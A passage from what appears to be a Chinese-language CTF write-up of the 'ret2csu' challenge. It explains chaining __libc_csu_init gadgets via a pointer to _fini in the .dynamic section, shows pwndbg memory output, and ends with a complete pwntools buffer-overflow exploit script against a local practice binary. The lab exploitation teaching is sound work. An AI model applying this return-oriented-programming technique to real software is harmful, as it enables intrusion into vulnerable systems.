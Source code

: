 例如，可以调用 `.dynamic` 段的 `_fini`，这个函数非常简单：

```asm
sub    rsp,0x8
add    rsp,0x8
ret
```

那么我们控制 `r12` **指向** `_fini` 即可，因为 `rbx` 会被我们设置为 0 所以不用考虑。注意是指向，也就是说 `[r12]` 才是 `_fini` 的地址，后者可以 `gdb` 中 `info func` 得到在 `0x4008b4`，但是我们需要赋值给 `r12` 的实际上是指向 `0x4008b4` 这个地址的指针。

我们可以这样看：

```
pwndbg> x/20x &_DYNAMIC
0x600e20:    0x00000001    0x00000000    0x00000001    0x00000000
0x600e30:    0x0000000c    0x00000000    0x00400560    0x00000000
0x600e40:    0x0000000d    0x00000000    0x004008b4    0x00000000
0x600e50:    0x00000019    0x00000000    0x00600e10    0x00000000
0x600e60:    0x0000001b    0x00000000    0x00000008    0x00000000
```

可以看到在 `0x600e48` 的指针指向 `0x4008b4`，这就是我们要赋值给 `r12` 的值。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = process('./ret2csu')
elf = ELF('./ret2csu')

p.recvuntil('>')

ret2win = elf.symbols['ret2win']
gadget1 = 0x40089a
gadget2 = 0x400880
fini_p = 0x600e48
arg3 = 0xdeadcafebabebeef

payload = flat(['a'*0x28, gadget1, 0, 1, fini_p, 0, 0, arg3, gadget2,0,0,0,0,0,0,0, ret2win])

p.sendline(payload)
p.interactive()
```
